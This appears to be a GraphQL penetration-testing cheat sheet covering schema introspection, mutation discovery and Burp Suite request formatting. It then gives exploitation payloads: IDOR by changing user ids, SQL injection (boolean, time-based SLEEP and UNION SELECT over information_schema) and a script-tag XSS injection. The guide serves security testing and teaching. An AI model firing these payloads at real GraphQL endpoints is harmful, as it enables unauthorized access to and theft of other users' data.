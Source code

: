 
# GraphQL Introspection

- As soon as you reach the GraphQL endpoint, paste this code: Go to GraphQL Introspection Code node.
- After that, go to [https://graphql-kit.com/graphql-voyager/](https://graphql-kit.com/graphql-voyager/) and paste the output you got from the code into the introspection section.
- Change Schema -> Introspection -> Paste (Paste introspection output).

**Note:** The usage in Burp Suite is different from using a GraphQL GUI website. On the website, you write the query like this:
```graphql
{
  users {
    id
    name
    email
  }
}
```
But in Burp Suite, everything has to be on the same line, and you separate fields like `id` and `name` with `\n`. Also, you must start the query with the word `query`, like this:
```json
{"query":"query { users { id\nname\nemail } }"}
```

# GraphQL Mutation

- Find the available mutation name. Usually, it will be something like: `createUser`, `registerUser`, or `signUp`.
- To find the mutation name, you need to write this code: Go to Mutation Code node.

Example:  
If you found a mutation called `createUser` and its input is `createUserInput`, you can write this code to know what fields are available:

```graphql
{
  __type(name: "createUserInput") {
    name
    inputFields {
      name
      description
      defaultValue
    }
  }
}
```

Let’s assume the outputs are `name`, `email`, and `password`. We can write this code to add a user with those values:

```graphql
mutation {
  createUser(input: {name: "Ahmed", email: "ahmed@example.com", password: "123456"}) {
    users {
      id
      name
      email
    }
  }
}
```

In Burp:
- Set the Content-Type header to: `application/json`
- Use this payload:
```json
{"query": "mutation { createUser(input: { name: \"Ahmed\", email: \"ahmed@example.com\", password: \"123456\" }) { id name email } }"}
```

Then check the response: If the server returns the requested data (like id, name, email), then the mutation worked successfully.

---

# GraphQL Exploitation Scenarios

## Important Notes:
- If you want to include quotation marks inside a string, you need to use `\"` instead of `"` to avoid conflicts.
- To add special characters like `"` or `\n`, use the backslash `\`.
- If the string inside the query contains quotation marks, escape them with `\`.

Example:
```json
{"query": "{ user(name: \"Exp8Bits\") { id name email } }"}
```

To add a new line:
```json
{"query": "{ user(id: 1) { name \n email } }"}
```

To include `\"` or `\`, escape it:
```json
{"query": "{ user(id: \"123\") { name email } }"}
```

---

## 1) Insecure Direct Object Reference (IDOR):

- Try to access another user's information by modifying the `id` or any identifier in the query.

Example:
```json
{"query":"{ user(id:2) { id name email } }"}
```

If you can see another user's data, it means the server is not performing proper authorization checks, which is an IDOR vulnerability.

---

## 2) SQL Injection:

- If the GraphQL query interacts with the database insecurely, you might retrieve or manipulate unauthorized data.

Original query:
```json
{"query":"{ user(id: 1) { id name email } }"}
```

Boolean-Based (Burp Suite):
```json
{"query":"{ user(id: \"1' OR '1'='1\") { id name email } }"}
```

Time-Based (Burp Suite):
```json
{"query":"{ user(id: \"1' AND IF(1=1, SLEEP(5), 0) --\") { id name email } }"}
```

Another Time-Based:
```json
{"query":"{ user(username: \"admin' and SLEEP(5) -- -\") {id} }"}
```

Union Injection (Burp Suite):
```json
{"query":"{ user(username: \"x' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -\") {username} }"}
```

Browser/GUI version:
```graphql
{
  user(id: "1' OR '1'='1") {
    id
    name
    email
  }
}
```

---

## 3) Cross-Site Scripting (XSS):

- If the application reflects user input (like name, email), try injecting JavaScript code.

Original:
```json
{"query":"{ user(id: 1) { id name email } }"}
```

Injected:
```json
{"query":"{ user(id: \"<script>alert('XSS Attack!')</script>\") { id name email } }"}
```

If the server doesn’t sanitize output, the script will execute in the browser when the data is displayed.

